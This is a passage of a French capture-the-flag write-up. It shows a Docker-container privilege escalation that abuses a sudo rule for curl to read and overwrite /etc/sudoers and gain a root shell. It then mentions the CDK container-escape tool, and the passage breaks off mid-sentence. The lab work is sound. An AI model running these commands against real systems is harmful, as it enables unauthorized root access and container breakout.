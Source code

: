 Au vu du nom d'hôte (que l'on voit dans l'invite de commande) on sait que l'on est dans un environnement Docker. On le voit aussi par rapport à l'absence de nombreux outils standards.

## Keep it simple stupid

L'utilisatrice peut exécuter `curl` en tant que root :

```bash
trinity@04584549e707:/tmp$ id
uid=1000(trinity) gid=1000(trinity) groups=1000(trinity)
trinity@04584549e707:/tmp$ sudo -l
Matching Defaults entries for trinity on 04584549e707:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trinity may run the following commands on 04584549e707:
    (ALL) NOPASSWD: /usr/bin/curl
```

Je ne me suis pas référé à GTFObins, je suis allé sur du très simple : utiliser curl pour lire et écrire des fichiers.

```bash
trinity@04584549e707:/tmp$ sudo /usr/bin/curl file:///etc/sudoers > sudoers_backup
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1713  100  1713    0     0  13.5M      0 --:--:-- --:--:-- --:--:-- 13.5M
trinity@04584549e707:/tmp$ echo "trinity ALL=(ALL) NOPASSWD: /usr/bin/bash" >> sudoers_backup
trinity@04584549e707:/tmp$ sudo /usr/bin/curl -s file:///tmp/sudoers_backup -o /etc/sudoers
trinity@04584549e707:/tmp$ sudo /usr/bin/bash
root@04584549e707:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@04584549e707:/tmp# cat /root/FLAG-2.txt 
Flag{'trinity-and-neo-reunited'}

You've made it to root, but you're in a container.  Can you break out?

https://www.nme.com/wp-content/uploads/2021/12/matrix-resurrections-2000x1270-1-1392x884.jpg
```

Sur ce container on ne trouve ni les exécutables Docker si le socket correspondant... C'est mal parti pour sortir du container.

J'ai uploadé un [nmap-static-binaries](https://github.com/opsec-infosec/nmap-static-binaries) histoire de voir si j'avais accès à des ports particuliers sur la machine hôte depuis le container mais rien de plus que je ne voyais déjà.

## Here Comes a New Challenger

Finalement j'ai découvert [CDK: 📦 Make security testing of K8s, Docker, and Containerd easier.](https://github.com/cdk-team/CDK). Il s'agit d'un outil d'exploitation pour s'échapper des containers.

J'ai joué un peu avec et j'ai finalement utilisé la commande `auto-escape`. Je pensais qu'elle me fournirait un shell directement mais elle permet en fait à injecter une commande dans la crontab :
